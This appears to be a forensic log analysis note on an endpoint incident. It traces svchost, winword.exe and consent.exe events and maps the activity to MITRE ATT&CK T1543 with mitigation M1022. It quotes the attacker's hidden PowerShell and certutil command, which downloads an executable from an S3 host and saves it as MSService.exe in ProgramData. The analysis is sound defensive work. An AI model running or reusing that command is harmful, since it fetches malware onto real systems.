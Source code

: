 > Jun 15, 2022 @ 15:48:12.617	
svchost.exe	DESKTOP-J22LNE4	C:\Windows\system32\svchost.exe -k netsvcs -p -s [gpsvc]	
C:\Windows\System32\svchost.exe	
process	end
[killed_group_policy_client_service]



\\\\ immediately after this event, [winword.exe] makes another registry change

// process.name = winword.exe

> Jun 15, 2022 @ 15:48:13.742	
winword.exe	DESKTOP-J22LNE4	 - 	
C:\Program Files\Microsoft Office 15\root\office15\ [winword.exe]	
registry	change	
276



\\\\ the only other event visibly linked to [winword.exe] is a network end event that appears to have occurred before the first
[consent.exe] start event 

> Jun 15, 2022 @ 15:45:02.185	winword.exe	DESKTOP-J22LNE4	 - 	
C:\Program Files\Microsoft Office 15\root\office15\winword.exe	
network	end	
276













after the powershell command runs 

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden certutil.exe -urlcache -split -f https://ibarblkacoiwlkese.s3.amazonaws.com/certificate-key.exe C:\ProgramData\MSService.exe

- a hidden powershell window is opened
- MSService.exe is downloaded from ibarblkacoiwlkese.s3.amazonaws.com/certificate-key.exe
- Msservice is saved to ProgramData



ID: T1543 Create or Modify System Process
> M1022 Restrict read/write access to system-level process files to only select privileged users who have a legitimate need to manage system services.

